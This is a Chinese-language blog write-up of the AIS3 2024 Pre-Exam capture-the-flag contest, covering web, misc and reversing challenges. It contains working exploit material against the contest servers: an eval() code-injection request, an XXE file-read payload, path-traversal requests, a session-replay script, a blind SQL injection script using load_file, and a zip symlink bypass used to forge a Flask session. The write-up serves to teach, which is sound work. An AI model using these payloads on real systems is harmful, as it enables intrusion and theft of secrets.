










+++
Title = "AIS3 2024 Pre-Exam Writeup"
Date = "2024-05-27 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "AIS3", "Writeup"]
Categories = ["CTF"]
menu = "main"
+++



今年是我第二次參加 AIS3，上次是 2022 剛開接觸資訊安全領域，還在往各個方向探索，幸運的吊車尾率取營隊；現在則是已經確定我主要想要研究領域是網路安全相關議題，進入大學後也有更多的課餘時間能夠研究，我這次在 328 位參賽者之中拿下了第 19 名。\
Scoreboard ID：`᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼᲼`



## Web

### Evil Calculator

題目作者：[TriangleSnake](https://blog.trianglesnake.com/)\
題目難度：Warmup\
解題人數：213/328



```python
from flask import Flask, request, jsonify, render_template

app = Flask(__name__)

@app.route('/calculate', methods=['POST'])
def calculate():
    data = request.json
    expression = data['expression'].replace(" ","").replace("_","")
    try:
        result = eval(expression)
    except Exception as e:
        result = str(e)
    return jsonify(result=str(result))

@app.route('/')
def index():
    return render_template('index.html')

if __name__ == '__main__':
    app.run("0.0.0.0",5001)
```





這題提供了一個計算機的介面，輸入算式後會被送到後端計算，由於使用了 `eval()` 函數，並且只有過濾掉 `_` 和空格，只要控制 `expression` 的內容就能執行惡意程式碼。由於無法直接匯入東西（`__import__` 需要底線，`import os` 需要空格），我的解法是透過 [Python Bulit-in Functinos](https://docs.python.org/3/library/functions.html) 中的 `open()` 函數讀取 flag 檔案。

```bash
curl -X POST http://chals1.ais3.org:5001/calculate -H "Content-Type: application/json" \
    --data "{\"expression\":\"open('/flag').read()\"}"
{"result":"AIS3{7RiANG13_5NAK3_I5_50_3Vi1}"}
```

Flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

### Ebook Parser

題目作者：[石頭吐司](https://t510599.github.io/)\
題目難度：Easy\
解題人數：35/328

這個題目要求我們上傳一個電子書檔案，然後將其中的幾個 meta 顯示在網站上。這個題目的漏洞在使用的函數庫上，epub 使用 XML 格式儲存 meta 相關資料，但是函數庫在解析 epub 檔案時沒有過濾掉 [External Entities](https://www.w3.org/TR/REC-xml/#sec-external-ent)，我在網路上找了一個[範例 EPUB 檔案](https://idpf.github.io/epub3-samples/30/samples.html)，跟著[維基百科](https://en.wikipedia.org/wiki/XML_external_entity_attack)的說明就能夠讀取到 flag。

```python
def _get_title_node(self):
  node_list = self._get_all('opf:metadata/dc:title')
    for node in node_list:
      refines_list = self._get_all('opf:metadata/opf:meta[@refines="#{0}" and @property="title-type"]'.format(self._get_element_id(node)))
      if len(refines_list) == 0:
        return node
      else:
        for refines in refines_list:
          if refines.text == 'main':
            return node
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "file:///flag" >]>
<package version="3.0" xml:lang="en" unique-identifier="uid" xmlns="http://www.idpf.org/2007/opf" prefix="cc: http://creativecommons.org/ns#">
  <metadata xmlns:dc="http://purl.org/dc/elements/1.1/">
    <dc:title id="title">&xxe;</dc:title>
```


Flag: `AIS3{LP#1742885: lxml no longer expands external entities (XXE) by default}`

### Capoost

題目作者：[Chumy](https://blog.chummydns.com/)\
題目難度：Medium\
解題人數：8/328（我沒解開）

#### 觀察

- 有 XSS 洞但是咖波不找我玩
- 應該不是 Jinra2 Template Injection
- `{{ . }}` 能留空但沒有抓到有用的資料
- 標題不能空
- /admin.html 有個 /template/upload，我猜是拿到 admin 後 Python format string injection？
- ~~我的 reCAPTCRA 難度快要高到我打不過了~~
- 空密碼能登入任何帳號但是不能註冊

#### LFI

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 8b677b62635d41099486dad9702c8be2.capoost.chals1.ais3.org:5487'
    -b $'session=MTcxNjY3NzU5OXxEdi1CQkFFQ180SUFBUkFCRUFBQUhfLUNBQUVHYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBTUFBV0U9fGESqar7EUnQY5gp3KfXOzoneFGuX9p0i5N5WYrzAs3a' \
    $'http://8b677b62635d41099486dad9702c8be2.capoost.chals1.ais3.org:5487/template/read?name=../Dockerfile'
HTTP/1.1 200 OK
Content-Length: 504
Content-Type: text/plain
Date: Sat, 25 May 2024 22:55:26 GMT
Server: nginx/1.25.5

FROM golang:1.19 as builder

LABEL maintainer="Chumy"

RUN apt install make

COPY src /app
COPY Dockerfile-easy /app/Dockerfile
WORKDIR /app
RUN make clean && make && make readflag && \
    mv bin/readflag /readflag && \
    mv fl4g1337 /fl4g1337 && \
    chown root:root /readflag && \
    chmod 4555 /readflag && \
    chown root:root /fl4g1337 && \
    chmod 400 /fl4g1337 && \
    touch .env && \
    useradd -m -s /bin/bash app && \
    chown -R app:app /app

USER app

ENTRYPOINT ["./bin/capoost"]
```

LFI 之後可以看到程式是 go 寫的，`bin/capoost` 太大不能抓下來拆（`nginx.conf` 還有其他有價值的資料嗎？），目前也沒有能讀 `/fl4g1337` 的權限，要想辦法 RCE

#### 拿到原始碼之後的觀察

- 利用空密碼的漏洞就能登入 `4dm1n1337` 的帳號，用來創建 Template `{{G1V3m34Fl4gpL34s3()}}`
- 密碼似乎根本沒有被呼叫到？密碼錯誤時的 `Login failed` 在原始碼也沒有出現過？
- `/template/upload` `name` 有 RegEx 沒辦法寫檔案到奇怪的地方
- `nowpost.Owner.ID == 1` 才會拿到呼叫讀 Flag 的 FuncMap
- POST `/post/create` 必須要 `auth.CheckSignIn`、`auth.CheckIsNotAdmin`
- CheckIsNotAdmin 會檢查 session context `isAdmin`
- `AddMeta` 會給 `userdata.ID == 1` 的使用者 `isAdmin`
- session 是 gob 格式但是 config.Secret 是 HMAC-SHA256 無法竄改
- ~~我開始掌握 reCAPTCRA 的訣竅了~~
- 先 AddMeta 才 router.Init，可能是要登入完馬上

### Login Panel Revenge Revenge

題目作者：[Ching367436](https://blog.ching367436.me/)\
題目難度：Medium\
解題人數：4/328

Ching367436 的系列作，這是第三題，前面有 [Login Panel](https://blog.ching367436.me/ais3-pre-exam-2023-write-up/#Login-Panel) 和 [Login Panel Revenge](https://github.com/Ching367436/My-CTF-Challenges/tree/main/tscctf/2024/web/login-panel-revenge) 兩題。



這個題目是一個 [Django](https://www.djangoproject.com/) 專案，提供了一個登入介面，帳號跟密碼都是寫死的 `admin`，閱讀檔案即可取得，下一步是個簡易的圖形驗證，考點在於最後的 2FA Code 沒有被以任何方式釋出，無法得知。Session Secret 是安全的亂數，無法偽造。

```python
def image(request):
    # return the b64decoded image of file parameter
    path = request.GET.get("file")
    if not path:
        return HttpResponse("No file specified", status=400)
    path = b64decode(path).decode()

    path = os.path.join('/loginPanel', path)
    path = os.path.normpath(path)

    # prevent directory traversal
    if not path.startswith('/loginPanel'):
        return HttpResponse("Invalid file", status=400)

    # read the file
    with open(path, 'rb') as f:
        data = f.read()

    # return the file
    return HttpResponse(data, content_type="image/png")
```

這邊在讀取檔案時可以任意讀取任何 `/loginPanel` 下的檔案。

```python
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': BASE_DIR / 'db.sqlite3',
    }
}
```

這邊可以發現 Diango 儲存 Session 的地方是 SQLite3 資料庫，把這個檔案抓下來，使用其他人的 Session 來嘗試登入直到遇到成功登入管理員帳號的 Session。另外，CSRF 網站上有我就順便寫上去了。

```typescript
async function main() {
  const input: Array < {
    session_key: string,
    session_data: string,
    expire_date: string
  } > = await Bun.file('keys.json').json();
  for (const data of input) {
    let csrf = '';
    const response = await fetch('http://chals1.ais3.org:36743/dashboard/', {
      headers: {
        'Cookie': `csrftoken=${csrf}; sessionid=${data.session_key}`
      }
    });
    if (response.headers.getSetCookie().find((cookie: string) => cookie.includes('csrftoken')))
      csrf = response.headers.getSetCookie().find((cookie: string) => cookie.includes('csrftoken')) || '';
    const body = await response.text();
    if (body.includes('AIS3{')) {
      console.log(body);
      break;
    }
  }
}
main();

// Response:
// ...
// <div class="alert alert-primary mt-4" role="alert">Here is your flag: <code>AIS3{Yet_An0th3r_l0gin_pan3l_c2hbKnXIa_c!!!!!}</code></div>
// ...
```

Flag: `AIS3{Yet_An0th3r_l0gin_pan3l_c2hbKnXIa_c!!!!!}`

### It's MyGO

題目作者：[ItisCaleb](https://itiscaleb.com/)\
題目難度：Medium\
解題人數：15/328（我沒解開）

MySQL Time Based Blind Injection LFI

```typescript
async function main() {
  const result = []
  for (let i = 22; i <= 100; i++) {
    let left = '\u0000'
    let right = '\uFFFF'
    while (true) {
      const mid = String.fromCharCode(Math.floor((left.charCodeAt(0) + right.charCodeAt(0)) / 2))
      if (mid == '#' || mid == '%' || mid == '&') continue
      if (mid === '}') break
      console.log(`left: ${left.charCodeAt(0)} ${left}, right: ${right.charCodeAt(0)} ${right}, mid:${mid.charCodeAt(0)} ${mid}`)
      if (right.charCodeAt(0) - left.charCodeAt(0) == 1) {
        result.push(right.charCodeAt(0))
        break
      }
      if (isTrue(await Promise.any([fetchRaw(`and (select sleep(1) from dual where substr(load_file("/flag"),${i},1) > "${mid}")`), timeout()]))) {
        left = mid
      }
      else {
        right = mid
      }
    } console.log(result)
  } return 0
}
function fetchRaw(payload: string): Promise < Response > {
  return fetch(`http://chals1.ais3.org:11454/song?id=1 ${payload}`)
}
function isTrue(result: any) {
  return result == null
}
async function timeout() {
  return new Promise((resolve) => { setTimeout(resolve, 1500) })
}
void main()
```

輸出：`AIS3{CRYCHIC_Funeral_` 後面壞掉了

### It's MyGO!!! Part-time Worker

題目作者：[ItisCaleb](https://itiscaleb.com/)\
題目難度：Hard\
解題人數：4/328



```python
from flask import Flask, render_template, request, session, send_from_directory, redirect, render_template_string
import os
import subprocess
from secret import secret
import glob

app = Flask(__name__)
app.secret_key = secret
app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
app.config['SEND_FILE_MAX_AGE_DEFAULT'] = 60

if os.environ.get('FLAG'):
    FLAG = os.environ.get('FLAG')
else:
    FLAG = "AIS3{REDACTED}"

def create_user_image_dir():
    if session.get('id') == None:
        session['id'] = os.urandom(16).hex()
    if not os.path.exists(f'./image'):
        os.mkdir(f'./image')
    if not os.path.exists(f'./image/{session['id']}'):
        os.mkdir(f'./image/{session['id']}')
    return session['id']

def safe_join(_dir, _sub):
  filepath = os.path.join(_dir, _sub)
  realpath = os.path.realpath(filepath)
  if not _dir in os.path.commonpath((_dir, realpath)):
    return None
  return realpath

def list_files(dir):
    return [f.replace('./','') for f in glob.glob(dir+"/**", recursive=True) if not os.path.isdir(f)]

@app.route('/public_images')
def public_images():
    images = [f'/static/image/{img}' for img in os.listdir('./static/image')]
    return render_template('public_images.html', images=images)

@app.route('/upload', methods=['GET','POST'])
def upload():
    id = create_user_image_dir()
    if request.method == 'POST':
        file = request.files['zipfile']
        tmp = os.path.join('/tmp', os.urandom(16).hex())
        file.save(tmp)

        path = safe_join(f'{os.getcwd()}/image',id)
        if path == None:
            return render_template('upload.html', status="Your id is illegal!")

        ret = subprocess.run(['unzip', '-qo', tmp, '-d', path]).returncode
        if ret != 0:
            return render_template('upload.html', status="Your file is not ZIP!")
        files = list_files(path)
        for f in files:
            # only image
            ext = os.path.splitext(f)[1].lower()
            if ext != '.png' and ext != '.jpg' and ext != '.jpeg' and ext != '.gif':
                os.unlink(f)
            # no symlink
            if os.path.islink(f):
                os.unlink(f)

        return redirect("/my_images")
    else:
        return render_template('upload.html', status="")

@app.route('/my_images')
def my_images():
    id = create_user_image_dir()
    images = [f'/{img}' for img in list_files(f'./image/{id}')]
    return render_template('my_images.html', images=images)

@app.route('/image/<path:path>')
def image(path):
    return send_from_directory('image',path, cache_timeout=0)

@app.route('/admin')
def admin():
    if session.get('admin') == True:
        return FLAG
    else:
        return redirect('/')

@app.route('/')
def root():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=51414)
```



這題雖然分類上是難題但解起來不難。這題的漏洞在於 `upload` 函數會先執行 `unzip` 指令解壓縮上傳的檔案，若執行成功再過濾掉不是圖片副檔名的檔案以及 symlink。根據 [`unzip`](https://linux.die.net/man/1/unzip) 的說明文件可以發現，若在壓縮檔中有加密過的檔案但沒有指定密碼，解壓縮失敗會導致 `unzip` 的回傳值為 1，這樣就可以繞過過濾 symlink 的檢查，讀取系統上的任意檔案。

```bash
# 建立 soft link 並加到壓縮檔
ln -s /app/secret.py go.png
zip -y go.zip go.png
# 建立一個檔案並加密，讓伺服器上的 unzip 失敗
touch uwu
zip -e go.zip uwu
# 上傳壓縮檔後讀取檔案
curl http://chals1.ais3.org:51414/image/6ae4c069ed1dfbae91eece4c34ebbdc3/go.png
secret="No_Sumimi...OnlyAveMujuca"
```

取得 LFI 之後，我們可以讀取到 `secret.py` 的內容，根據原始碼可以發現 `secret` 變數會作為 Flask 的 Session Key，因此我們可以透過修改 `session['admin']` 來取得 flag。由於對 Flask 的 Session 實作相關細節不熟悉，我的解法是直接架起一個 Flask 伺服器，並使用同樣的 `secret` 竄改 Session 來取得 flag。

Flag: `AIS3{So_Crazy...MyGO!!!!!_is_Dead}`

## Misc

### Three Dimensional Secret

題目作者：[ja20nl1n](https://x.com/jasonlin1222)\
題目難度：Easy\
解題人數：174/328

題目提供了 pcapng 檔案，拿去 Wireshark 做封包分析，複製整個 TCP Stream 後可以發現是 3D 印表機和某個軟體溝通時的 G-code，將其貼到線上 G-code Viewer 後就可以取得 Flag。




Flag: `AIS3{b4d1y_tun3d_PriN73r}`

### Hash Guesser

題目作者：[石頭吐司](https://t510599.github.io/)\
題目難度：Easy\
解題人數：23/328



題目會拿一組安全的亂數續算一個 SHA-256，建立一張 16 * 16 灰階的圖片，並根據每一個位元為 0 或 1 決定圖片填入的 byte 為 0 還是 255。目標是 `ImageChops.difference(img1, img2).getbbox() == None`。由於網站上有安裝 [Cloudflare Turnstile](https://www.cloudflare.com/zh-tw/products/turnstile/)，無法直接寫腳本暴力破解。

我的解法是利用 [`ImageChops.difference()`](https://pillow.readthedocs.io/en/stable/reference/ImageChops.html#PIL.ImageChops.difference) 會以較小的圖片作檢查的特性，用 GIMP 弄一張 PNG，設定為灰階模式，Scale 到 1 * 1，移除 Alpha Layer（[PIL L Mode](https://pillow.readthedocs.io/en/stable/handbook/concepts.html#modes)），填入 255，有二分之一的機率答對。



Flag: `AIS3{https://github.com/python-pillow/Pillow/issues/2982}`

## rev

### The Long Print

解題人數：139/328


窩不知道，窩是讀 web 的，今天運氣好 IDA 的伺服器會動，改 `sleep()` 時間就過了。

Flag: `AIS3{You_are_the_master_of_time_management!!!!?}`

### Frontend Unraveling Web Application: Master Obfuscated Code Odyssey

題目作者：[Ching367436](https://blog.ching367436.me/)\
解題人數：3/328\
bau bau

這題是一個 Flag Checker，輸入 Flag 並按下按鈕後會跟後端檢查 Flag 是否正確。使用 Burp Suite 可以抓到 3.2 MB 的 `dope.js`，看起來是前端的控制程式碼。打開閱讀後，可以發現這個是被嚴重混淆的 Vue.js 程式碼（為甚麼會有加密貨幣錢包 Library？），由於題目分類是逆向，正確的 Flag 應該會藏在這個檔案中。

經過觀察，這段程式有三個主要的替換函數 `AIS3()` 、 `_0x3d32()` 和 `Ching367436()`，前兩個函數的作用是輸入一個數字並替換成字串；而 `Ching367436` 則是計算機，對輸入的兩個數字或字串進行加減乘除或位元運算，並由 `__p_2651934416` 控制所使用的運算子（或是使用 `__p_4879216376()` 指定 `__p_2651934416` 的內容），其中 `__p_2651934416 = -7` 代表使用加法運算子（對 JavaScript 來說也可以代表字串拼接），在程式中大量出現。

```typescript
async function main(){
  // 懶得 Hex to ASCII 跟 Unicode to ASCII 丟線上轉換器了
  let input = await Bun.file('dope.js').text() 
  const replace = await Bun.file('dope.json').json()
  const x3d32 = await Bun.file('0x3d32.json').json()
  let track=0
  
  for(const key in replace){
    const replaceKey = `"${replace[key]}"`
    input = input.replaceAll(`AIS3(${track})`,replaceKey)
    input = input.replaceAll(`AIS3.apply(undefined, [${track}])`,replaceKey)
    input = input.replaceAll(`AIS3.call(undefined, ${track})`, replaceKey)
    track++
    console.log(track)
  }
  track=0
  for(const key in x3d32){
    const replaceKey = `"${x3d32[key]}"`
    input = input.replaceAll(`_0x3d32(${track})`,replaceKey)
    track++
    console.log(track)
  }
  input=input.replaceAll('\" + \"','')
  const writer = Bun.file('dope_replaced.js').writer()
  writer.write(input)
  await writer.flush()
}
main()
```

觀察了一段時間後，發現逆向出來的程式碼 `_0x4e3653` 有個 `IS3` 片段，直接拿去網站的 console 跑（這邊繞過 Anti-Debugger 的解法是先在一個分頁開啟 Dev Tools 再貼上網址，分頁會被弄到很卡但是還能動）：

```javascript
// 我逆向出來的版本
window["EdChP".substr(2, 2) + "string".substr(3, 3) + "9367 ".substr(1, 3) + 436 + "_0x533"[0] + "floor".substr(0, 2) + "-imag".substr(3, 2) + "_0x533"[0] + " corr".substr(1) + "ect"] = _0x4bd6ac["MpbDx"](window["EdChP".substr(2, 2) + "string".substr(3, 3) + "9367 ".substr(1, 3) + 436 + "_0x533"[0] + "floor".substr(0, 2) + "-imag".substr(3, 2)], "enabl"[2].toUpperCase() + "IS3" + calculator("{posi_RaseAl".substr(2, 3) + "_W0R1QNs"[0] + "R1QNs"[1] + "d_rzO e"[2], "bfuc4ted_arCode".substr(2, 4) + '_B9qgXaihce8' + ":5px}", calculatorSetting = plus));

// 原本的扣
window[AIS3(772).substr(2, 2) + AIS3(98).substr(3, 3) + AIS3(4426).substr(1, 3) + 436 + AIS3(57)[0] + AIS3(1497).substr(0, 2) + AIS3(288).substr(3, 2) + AIS3(57)[0] + AIS3(2088).substr(1) + '\u0065\u0063\u0074']
              = _0x4bd6ac[_0x3d32(3162)](window[AIS3(772).substr(2, 2) + AIS3(98).substr(3, 3) + AIS3(4426).substr(1, 3) + 436 + AIS3(57)[0] + AIS3(1497).substr(0, 2) + AIS3(288).substr(3, 2)], AIS3(7703)[2].toUpperCase() + '\u0049\u0053\u0033' + Ching367436(AIS3(8677) + '\u005F\u0052' + AIS3(1472).substr(2, 3) + '\u005F\u0057\u0030' + AIS3(572)[0] + AIS3(572)[1] + '\u0064\u005F' + AIS3(4666)[2], '\x62\x66\x75\x63\x34\x74\x65\x64\x5f' + AIS3(12).substr(2, 4) + '_B9qgXaihce8' + AIS3(1551), (__p_2651934416 = -7),))

> Uncaught ReferenceError: _0x4bd6ac is not defined

window[AIS3(772).substr(2, 2) + AIS3(98).substr(3, 3) + AIS3(4426).substr(1, 3) + 436 + AIS3(57)[0] + AIS3(1497).substr(0, 2) + AIS3(288).substr(3, 2) + AIS3(57)[0] + AIS3(2088).substr(1) + '\u0065\u0063\u0074']
              = (window[AIS3(772).substr(2, 2) + AIS3(98).substr(3, 3) + AIS3(4426).substr(1, 3) + 436 + AIS3(57)[0] + AIS3(1497).substr(0, 2) + AIS3(288).substr(3, 2)], AIS3(7703)[2].toUpperCase() + '\u0049\u0053\u0033' + Ching367436(AIS3(8677) + '\u005F\u0052' + AIS3(1472).substr(2, 3) + '\u005F\u0057\u0030' + AIS3(572)[0] + AIS3(572)[1] + '\u0064\u005F' + AIS3(4666)[2], '\x62\x66\x75\x63\x34\x74\x65\x64\x5f' + AIS3(12).substr(2, 4) + '_B9qgXaihce8' + AIS3(1551), (__p_2651934416 = -7),))

> 'AIS3{posi_ReAl_W0R1d_Obfuc4ted_Code_B9qgXaihce8:5px}'
```



Flag: `AIS3{posi_ReAl_W0R1d_Obfuc4ted_Code_B9qgXaihce8:5px}`\
首殺！
